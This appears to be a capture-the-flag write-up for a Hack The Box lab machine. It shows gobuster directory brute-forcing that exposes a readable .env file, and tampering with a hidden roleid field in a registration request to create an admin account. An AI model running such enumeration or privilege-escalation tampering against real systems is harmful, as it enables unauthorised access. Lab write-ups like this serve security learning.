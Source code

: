`gobuster dir -u 10.10.10.215 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php -t 50`
```
/academy (Status: 301)
```

`gobuster dir -u  http://10.10.10.215/academy/ -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -t 40 -b 401,402,403,404`
```
/.env (Status: 200)
```
* directory brute-forcing host give so much information and the direct ssh for user in `.env` , I think this is unintended because it skips the foothold part .

## VHOST:academy.htb

* in the right corner there are two options `login` `register` gobuster also identify them

### Gobuster

`gobuster dir -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php -t 50`
```
/admin.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
```

### login

**_Nothing interested in login_**

### register

* in the source found hidden tag

      <input type="hidden" value="0" name="roleid" />

* **roleid** is related to `RST_API`

  - there is a [Role management](https://thalesdocs.com/gphsm/luna/7.3/docs/network/Content/REST_API/REST_API_Reference_Guide/html/_roles_urls_page_name.html) system in the REST_API
  - Role management resources provide a facility to manage roles used to determine resource access for users.
  - `roleid` set either a name or number eg. `user` or `0`

* intercept register request in burp found roleid parameter

      uid=test1&password=test1&confirm=test1&roleid=0

* this server is using numbers as roleid
* after some tries i found that there are only two IDs `0` or `1`
* `roleid=0` register a **user** account 
* `roleid=1` register a **admin** account
* so i intercept a register request change roleid to `1` and create a admin account
